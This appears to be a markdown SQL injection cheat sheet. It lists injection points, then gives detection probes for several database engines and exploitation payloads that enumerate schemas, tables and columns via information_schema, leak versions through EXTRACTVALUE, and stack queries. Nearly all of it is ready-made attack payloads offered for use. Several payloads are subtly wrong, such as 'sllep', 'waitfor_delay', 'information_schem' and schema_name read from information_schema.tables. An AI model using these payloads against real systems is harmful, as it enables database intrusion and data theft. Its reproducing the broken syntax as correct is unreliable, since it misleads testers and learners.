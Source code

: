 # SQL Injection

### Types of SQL Injection

* In Band SQL Injection
* Blind SQL Injection
* OutOfBand Injection

### SQL Injection Points

- **`Login Form`**
- **`Url Search Parameters`**
- **`Url id values`**
- **`Cookie Values`**
- **`XML encoded values like <storeId>**</storeId>`**
- **`Form Input Sections`**
- **`File Upload Sections`**

### Detecting SQL Injection

*  Error Based

        '
        "
        ;
        ;--
        ;#
        `
        ')
        ")
        `)
        '))
        "))
        `))

* Union Based

      ' union select 1,2,3,4;-- -
      ' order by 1,2,3,4;-- -
      ' union select null,null,null,null;-- -
* Boolean Based

      ' and true;-- -
      ' and false;-- -
      ' and 1=1;-- -
      ' and 1=2; -- -
      ' or 1=1; -- -
      ' or 1+2 = 3;-- - 
      ' and 'a' is not 'b
      ' or '1' = '1
* Time Based

  * MySQL
    
        '; select sleep 10;-- -
        ' and sllep 10; -- -
        ' && sleep 10; -- -
        ' | sleep 10; -- -
  * PostgreSQL
    
        ' || pg_sleep(10);-- -
        '; select pg_sleep(10);-- -
  * Oracle
        
        1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
        1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)
  * MSSQL

        ' waitfor_delay '0.0.10
  * SQLite

        1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
        1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))

### Exploitation

##### In-Band SQL Injection

- Union Based Attack
```sql
' UNION SELECT 1,2,3,4;-- -
```
```sql
' union select 1,2,group_concat(schema_name),4 from information_schema.tables;-- -
```
```sql
' union select 1,2,group_concat(table_name),4 from information_schema.tables where table_schema=<database_name>
```
```sql
' union select 1,2,group_concat(column_name),4 from information_schema.columns where table_name = <the_table_name>
```

- Error Based Attacks
```sql
' AND EXTRACTVALUE(1337, CONCAT('~|~', (SELECT version()), '~|~'));-- -
' AND EXTRACTVALUE(1337, CONCAT('~|~', (SELECT @@version), '~|~'));-- -
' AND EXTRACTVALUE(1337, CONCAT('~|~', (SELECT database()), '~|~'));--
```
- Stack Based Attack
```sql
'; select group_concat(schema_name) from information_schem.tables;-- -
```











































































































































































































































































































































































































































































































